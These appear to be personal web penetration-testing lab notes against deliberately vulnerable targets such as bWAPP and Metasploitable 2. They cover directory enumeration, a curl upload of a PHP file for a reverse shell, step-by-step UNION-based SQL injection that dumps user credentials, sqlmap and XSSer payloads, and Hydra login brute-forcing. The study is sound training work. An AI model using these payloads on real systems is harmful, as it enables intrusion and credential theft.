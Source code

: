 # Labs

## <mark style="color:red;">Lab 1 - Web and HTTP Protocol</mark>

{% file src="../.gitbook/assets/http_methods_with_curl_walkthrough.pdf" %}
http methods walkthrough
{% endfile %}

### Practical Demonstration

{% code overflow="wrap" lineNumbers="true" %}
```bash
# for the purpose of the exam.
dirb http://$ip # bruteforce and discover directories.
curl -X GET $ip # get entire webpage.
curl --head $ip # for head request. or curl -I $ip
curl -X OPTIONS $ip -v # for OPTIONS.
curl -X POST $ip # POST request.
curl -X PUT $ip # PUT method.
curl -X OPTIONS $ip/login.php # interaction with a sub-page.
curl -X POST 192.45.178.3/login.php -d "name=john&password=password" -v # Passing the username and password to the login.php page.
curl -X OPTIONS 192.45.178.3/uploads/ -v # sneding OPTIOJNS request for /uploads/ directory.




# General Knowledge using Metasploitable 2 as Case-Study.
curl http://192.168.0.141/mutillidae/ -X GET #get request reutrns entire webpage using curl.

# 1 - HEAD
curl http://192.168.0.141/mutillidae/ -I HEAD # head request.

# 2 - upload files
# uploading file to /dav dir with curl to obtain reverse shell.
curl http://192.168.0.141/dav/ --upload-file php_code.php -v

# 3 - OPTIONS
# viewing supported http methods for the victim with curl.
curl -X 'OPTIONS' http://192.168.0.141/dav/ -v
# returns..
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK

```
{% endcode %}



## <mark style="color:red;">Lab 2 - Directory Enumeration with Gobuster</mark>

{% file src="../.gitbook/assets/gobuster_usage.pdf" %}

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt`  - dir enum.

`gobuster dir --help` - help menu.

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt -x .php,.xml,.txt -r` - finding specific file extension.

`-b 403,404` - blacklist/exclude these status codes.

`-x .php,.txt,.xml -r` - search for specific file extension, then `-r` to follow redirect.



## <mark style="color:red;">ZAP</mark>

{% file src="../.gitbook/assets/OWASP_ZAP_scanning_webapp.pdf" %}

## <mark style="color:red;">Lab 3 - Scanning Web Apps with Nikto</mark>

<mark style="color:red;">Best Web app Scanner................</mark>

{% file src="../.gitbook/assets/Nikto_webscan.pdf" %}

`nikto -h http://192.168.0.141` - basic scan with nikto.



## <mark style="color:red;">Passive Crawling with BurpSuite</mark>

{% file src="../.gitbook/assets/Passive_Crawling_with_BURPSUITE.pdf" %}



## <mark style="color:red;">Lab 4 - SQL Injection with SQLMap</mark>

{% file src="../.gitbook/assets/SQL_Map.pdf" %}

`sqlmap -u "http://$ip/path" --cookie "PHPSESSID=3434" -p title` -&#x20;

`sqlmap -u "http://192.183.79.3/sqli_1.php?title=helloworld&action=search" --cookie "PHPSESSID=erpn0pou57poi7dc0avcpedcc6; security_level=0" -p title` - sqlmap.

### Mannual Exploitation i did

{% code overflow="wrap" lineNumbers="true" %}
```bash
# everything must be encoded already.
# step 1
# induce an error.
title=helloworld' --  # induces a MySQL error.

# step 2
# find number of columns.
helloworld+'+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL+--+ # we have 7 columns.

# step 3
# dumping dbs/schema_names.
# dumped schema dbs -> (bWAPP,information_schema,performance_schema,mysql).
helloworld+'+UNION+SELECT+NULL,NULL,table_schema,NULL,NULL,NULL,NULL+FROM+INFORMATION_SCHEMA.TABLES+--+&action=search      # dumps all 4 schemas/dbs in the bwapp app.

# step 4
# using the dumped schema names to get their tables.
# dumped tables for bWAPP db -> (blog,heroes,movies,users,visitors).
helloworld+'+UNION+SELECT+NULL,NULL,table_name,NULL,NULL,NULL,NULL+FROM+INFORMATION_SCHEMA.TABLES+where+table_schema="bWAPP"+--+         

# step 5 
# get columns of each tables.
# dumped columns for users (admin,id,password,email,logon,secret..etc).
helloworld+'+UNION+SELECT+NULL,NULL,column_name,NULL,NULL,NULL,NULL+from+information_schema.columns+where+table_name='users'+--+ 

# step 6
# dumping creds.
# we are to dump admin,email and password informations only.
helloworld+'+UNION+SELECT+NULL,admin,password,NULL,email,NULL,NULL+from+bWAPP.users+--+
# or you can concat email and password together using the CONCAT() function for MySQL dbs. https://portswigger.net/web-security/sql-injection/cheat-sheet
CONCAT(password,'+<-->+',email)

# dumping bd version mannuall.
dking+'+UNION+SELECT+NULL,NULL,version(),NULL,NULL,NULL,NULL+from+information_schema.tables+--+
```
{% endcode %}



## <mark style="color:red;">Lab 5 - XSS Attack with XSSer</mark>

{% file src="../.gitbook/assets/XSSER.pdf" %}
xsser basic walkthrough.
{% endfile %}

{% file src="../.gitbook/assets/XSSER_Authenticated.pdf" %}
xsser with authenticaton.
{% endfile %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
# xsser --url "http://$ip/...?page=dns-lookup..." -p "<parameter_value>  - check for vulnerability. Replace the "search" parameter with XSS.
xsser --url 'http://192.87.202.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```
{% endcode %}

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<target-host=XSS> --auto` -  checks for other vuln.. you replace your vuln parameter with "XSS".

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<parameter_value> --Fp "<script>alert(1)</script>"` - to run a custom payload.

Then you can copy the payload it generates and use in Burp or ZAP to test your victim site.



## <mark style="color:red;">Lab 6 - Attacking HTTP Login with Hydra</mark>

{% file src="../.gitbook/assets/http_bruteforce_with_HYDRA.pdf" %}

`hydra -L <users.txt> -P <passwords.txt> $ip http-post-form "/login.php:login=^USER^&password=^PASS&security_level=0form=submit:<regex_Exp to not look for"` - bruteforcing http.



## <mark style="color:red;">**Attacking Basic Auth with Burp Suite**</mark>

{% file src="../.gitbook/assets/Basic_Authentication_with_BURPSUITE.pdf" %}

## <mark style="color:red;">**Attacking HTTP Login Form with ZAProxy**</mark>

{% file src="../.gitbook/assets/Http_BruteForce_with_ZAP (1).pdf" %}

